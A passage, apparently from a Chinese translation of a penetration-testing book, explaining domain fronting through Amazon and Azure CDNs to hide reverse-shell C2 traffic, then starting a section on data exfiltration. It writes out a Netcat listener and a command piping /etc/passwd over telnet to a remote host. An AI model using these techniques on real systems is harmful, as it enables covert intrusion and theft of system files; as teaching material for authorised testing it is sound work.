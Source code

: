 执行此有效载荷应该会在位于 Amazon CDN 后的 C2 服务器上获取一个反向 Shell。APT29（一个俄罗斯国家级黑客组织）曾积极利用这种技术执行隐蔽攻击：

![](img/B17765_13_34.png)图 13.34：当在目标系统上使用域前置技术运行漏洞时，反向 Shell 到 Meterpreter

攻击者可能选择利用微软 CDN 服务进行 C2 通信。不幸的是，免费层用户无法使用 CDN 选项，因此用户可能需要选择按需付费选项注册，并创建订阅，然后按照[`docs.microsoft.com/en-us/azure/cdn/cdn-create-endpoint-how-to`](https://docs.microsoft.com/en-us/azure/cdn/cdn-create-endpoint-how-to)上的说明操作。不过，测试人员需要确保 Azure 或 Amazon 背后的域名有有效的 A 记录。对于微软 Azure，你还需要确保 CNAME 指向正确的自定义域名，以确保域名前置功能正常工作。

尽管许多内容提供商容易受到此类攻击，但一些内容提供商，如 Google，似乎已经通过对其云基础设施进行重大改动迅速修复了这一攻击。例如，如果 A 公司的域名使用了亚马逊的域名作为前置，并且额外的主机头指向 B 公司，请求将在 CDN 的第一个节点被丢弃。

类似地，其他提供商正尝试通过要求额外的授权令牌或其他机制来阻止这些前置技术或前置技术。

# 数据外泄

数字数据从任何环境中未经授权的转移被称为数据外泄（或数据挤出）。一旦在被攻陷的系统中维持持久性，可以利用一系列工具从高度安全的环境中外泄数据。

在本节中，我们将探索攻击者用来将文件从内部网络发送到攻击者控制系统的不同方法。

## 使用现有的系统服务（Telnet、RDP 和 VNC）

首先，我们将讨论一些简单的技术，用于在对受感染系统的访问时间有限的情况下快速抓取文件。攻击者可以通过运行`nc -lvp 2323 > Exfilteredfile`来使用 Netcat 打开一个端口，然后从受感染的 Linux 服务器运行`cat /etc/passwd | telnet remoteIP 8000`。

这将向远程主机显示`etc/passwd`的所有内容。作为示例，我们正在从内部主机提取密码列表到 AWS 上的远程 Kali 机器，如*图 13.35*所示：

![](img/B17765_13_35.png)
